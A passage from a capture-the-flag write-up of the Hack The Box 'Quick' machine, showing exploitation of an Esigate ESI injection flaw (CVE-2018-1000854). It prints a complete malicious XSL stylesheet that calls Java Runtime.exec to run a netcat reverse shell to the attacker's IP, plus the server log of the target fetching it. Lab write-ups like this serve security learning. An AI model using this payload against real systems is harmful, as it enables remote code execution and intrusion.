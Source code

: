 Since I now had access to some fields that I could send input through, I decided to test out that Esigate vulnerability I had read about earlier to see if it could be exploited. It was assigned as CVE-2018-1000854. [https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/](https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/) [https://github.com/esigate/esigate/issues/209](https://github.com/esigate/esigate/issues/209) 

```text
zweilos@kali:~/htb/quick$ python -m SimpleHTTPServer 9088
Serving HTTP on 0.0.0.0 port 9088 ...
10.10.10.186 - - [11/Aug/2020 21:15:36] "GET /evil.xsl HTTP/1.1" 200 -
```

I followed the instructions in the blog and crafted an XSL file, which contained specially formed XML code that would be read and executed by Esigate when reflected into an XML file.

![](../../.gitbook/assets/18-im-in.png)

I submitted the above code into the ticketing system, which caused Esigate to load the `evil.xml` file with my code from the `evil.xsl` code reflected into it as a "stylesheet". 

```markup
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
	<xsl:variable name="cmd"><![CDATA[./nc -e /bin/sh 10.10.15.57 13371]]></xsl:variable>
	<xsl:variable name="rtObj" select="rt:getRuntime()"/>
	<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
	Process: <xsl:value-of select="$process"/>
	Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```

![](../../.gitbook/assets/18.5-im-in.png)

